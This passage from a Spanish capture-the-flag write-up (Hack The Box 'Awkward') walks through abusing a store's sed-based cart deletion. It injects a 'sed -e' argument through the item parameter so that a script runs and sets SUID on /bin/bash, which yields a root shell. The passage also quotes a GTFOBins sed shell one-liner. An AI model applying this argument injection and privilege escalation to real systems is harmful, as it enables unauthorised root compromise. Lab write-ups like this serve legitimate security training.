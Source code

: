 Podriamos intentar explotar este comando sed. Pero antes vamos a ver como funciona esta web de tienda.
Es una web en produccion por lo que está en sus primeras fases de creación.

En la web, si escojo un item y le doy a "añadir a la carta" se tramita esta peticion:
```/POST http://store.hat-valley.htb/cart_actions.php item=1&user=5315-735b-5b5-8ce2&action=add_item```

![](/assets/images/htb-awkward/awkward8.png)


No tiene sentido hacer SQLi porque nos habian avisado que no existe tal. 
Tampoco intentaremos hacer muchas inyecciones por el tema "badchars".
Vamos a ver que hay en la carpeta cart (var/www/store/cart)
```console
bash-5.1$ ls cart # 5315-735b-5b5-8ce2  -> UserId 
bash-5.1$ cat cart/5315-735b-5b5-8ce2
***Hat Valley Cart***
item_id=1&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90
```
En la seccion de "mi carta" podemos quitar articulos:
```/POST http://store.hat-valley.htb/cart_actions.php item=1&user=5315-735b-5b5-8ce2&action=delete_item```

Lo que hace el codigo es borrar esa linea donde sale el id de nuestro producto del archivo 5315-735b-5b5-8ce2
Por ejemplo si teniamos el item numero 2 ```sed -i '/item_id=2/d' /var/www/store/cart/5315-735b-5b5-8ce2```
borra la linea donde salga "item_id=2".
¿Pero como podemos abusar de este "sed"? Tiramos de la web [gtfobins](https://gtfobins.github.io/gtfobins/sed/)
La shell es ```sed -n '1e exec sh 1>&0' /etc/hosts``` pero no se puede por los caracteres ">" y "$".

Otra manera alternativa es el parametro -e o --expression que se sirve de un script que ejecutar.
```
# Creamos el script /tmp/shell.sh
bash-5.1$ echo '#!/bin/bash' > /tmp/shell.sh
bash-5.1$ echo 'chmod u+s /bin/bash' >> /tmp/shell.sh
bash-5.1$ chmod +x /tmp/shell.sh

# Sustituimos el archivo de la lista por un modificado con el comando:
# ```(sed) -e "1e /tmp/shell.sh" /tmp/shell.sh``` Cerrando y abriendo las comillas simples.
bash-5.1$ ls cart # 5315-735b-5b5-8ce2
bash-5.1$ rm -rf 5315-735b-5b5-8ce2 
bash-5.1$ echo '***Hat Valley Cart***' > cart/5315-735b-5b5-8ce2
bash-5.1$ echo 'item_id=1' -e "1e /tmp/shell.sh" /tmp/shell.sh '&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90' >> cart/5315-735b-5b5-8ce2
```
Ahora ejecutamos la accion de delete-item para que nuestro codigo se ejecute:
```console
└─$ curl -s -x POST http://store.hat-valley.htb/cart_actions.php -d $'item=1\' -e" 1e /tmp/shell.sh" /tmp/shell.sh \'&user=5315-735b-5b5-8ce2&action=delete_item'
bash-5.1$ ls -la /bin/bash # -rwsr-sr-x 1 root root 1396520 Jan  7  2022 /bin/bash
bash-5.1$ bash -p
bash-5.1# whoami # root
```